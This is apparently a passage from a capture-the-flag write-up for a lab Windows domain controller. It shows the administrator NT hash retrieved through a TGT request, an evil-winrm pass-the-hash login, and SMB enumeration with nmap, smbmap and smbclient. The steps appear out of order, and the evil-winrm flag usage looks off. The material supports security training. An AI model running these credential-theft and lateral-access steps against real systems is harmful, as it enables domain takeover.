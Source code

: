 ```
[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```
7 Log in with the hash with evil winrm
```
evil-winrm -u administrator -p aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -i 10.10.11.236 -P 5985
```

Finally go to the Desktop and read the root flag!!!









## ASSETS

What is the ports ?

### 445


SMB scan

```
nmap -p 445 -A -oN SMB 10.10.11.236

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time:
| date: 2023-10-22T06:56:28
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
```

smbmap

smbmap -H dc01.manager.htb


SMBMAP:
```
smbmap -H dc01.manager.htb
```

Try to log on the SMB WITH SMBCLIENT

```
smbclient -L 10.10.11.236
smbclient //10.10.11.236/SYSVOL
Password for [WORKGROUP\cds]:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share

[https://www.hackingarticles.in/smb-penetration-testing-port-445/](https://www.hackingarticles.in/smb-penetration-testing-port-445/)
```